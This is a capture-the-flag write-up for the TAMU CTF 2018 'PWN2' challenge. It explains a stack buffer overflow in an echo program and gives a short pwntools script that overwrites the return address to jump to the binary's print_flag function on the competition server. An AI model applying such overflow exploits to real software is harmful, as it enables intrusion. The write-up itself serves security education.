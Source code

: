 ```yaml
---
author: zangobot
ctf: TAMU CTF 2018
challenge: PWN2
categories: [pwn]
tags: [ ctf, springchicken, challenge ]
layout: writeup
---
```

pwn2 asks the user to enter a sentence and it will reply with the same message.

```
I just love repeating what other people say!
I bet I can repeat anything you tell me!

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi
```

My intuition is suggesting me to mess with the length of the input string.

After some trials, I found that with a string longer than 243 characters, the program halts in [SIGSEGV](https://en.wikipedia.org/wiki/Segmentation_fault).

This time, the buffer is long enough for a shellcraft... if only the NX bit were disabled.

I can't proceed in that direction. Should I use ROP?

Why the hell? There is the `print_flag` function in the binary! As regards ASLR and canary, same as [pwn1]({{site.base_url}}/writeups/TAMU2018/pwn1), they are both disabled.

So, the exploit is:

```
from pwn import *

OFFSET = 243
shell = p32(0x0804854b)
exploit = 'A'*OFFSET + shell
rem = remote('pwn.ctf.tamu.edu', 4322)
rem.sendline(exploit)
rem.interactive()

```


Flag captured :-D
